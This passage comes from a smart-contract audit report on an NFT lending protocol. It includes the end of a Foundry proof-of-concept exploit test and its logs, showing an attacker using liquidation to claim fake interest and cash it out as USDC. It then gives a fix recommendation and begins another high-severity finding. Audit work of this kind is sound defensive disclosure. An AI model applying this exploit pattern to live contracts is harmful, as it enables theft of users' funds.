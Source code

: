 ```solidity
        vm.startPrank(attacker);
        comptroller.batchLiquidateBorrow(user, liqables, collaterals);
        console2.log("Attacker Interest Owed After Liq: ", baycCERC721.supplyInterestCurrent(attacker));

        // redeem the fake interest and cash it out for USDC
        uint balanceBeforeCashOut = IERC20(USDC).balanceOf(attacker);
        baycCERC721.redeemInterest(address(0));
        imMarket.redeem(imMarket.balanceOf(attacker));
        vm.stopPrank();
        console2.log("Attacker Final USDC Claimed: ", IERC20(USDC).balanceOf(attacker) - balanceBeforeCashOut);
    }

        function _distributeAndMintBAYC(address user, uint tokenId) internal {
        _distributeERC721(BAYC, user, tokenId, address(baycCERC721));
        uint[] memory baycIds = new uint[](1);
        baycIds[0] = tokenId;
        vm.prank(user);
        baycCERC721.mint(baycIds);
    }
}
```
```
Logs:
  Attacker Interest Owed:  0
  User Interest Owed:  0
  Attacker Interest Owed After Liq:  6650667536
  Attacker Final USDC Claimed:  6650667536
```

In this case, we use 1 account over 1 year and the attack earns $6650. However, this attack can be performed an unbounded amount of times, so repeating this strategy 1000+ times (or with a longer wait period) would result in millions of dollars of funds being stolen from the interest market.

### Recommendation

Use the same logic used in `transferTokens` to checkpoint the `interestIndex` and `interestAccrued` values of the borrower and liquidator before transferring the tokens from one to the other.

### Review

Fixed as recommended in [84f24cad84e82128d94e8ba485abaf14a5fefdbb](https://github.com/fungify-dao/taki-contracts/pull/9/commits/84f24cad84e82128d94e8ba485abaf14a5fefdbb).

## [H-01] Interest isn't charged on accrued interest in ERC721 market, allowing attacker to earn free yield

When a user borrows an ERC721, the interest they are charged is stored in the `borrowSnapshot.interestAccrued` field of the ERC721 market. Only when the interest is paid does it become a balance in the interest market.
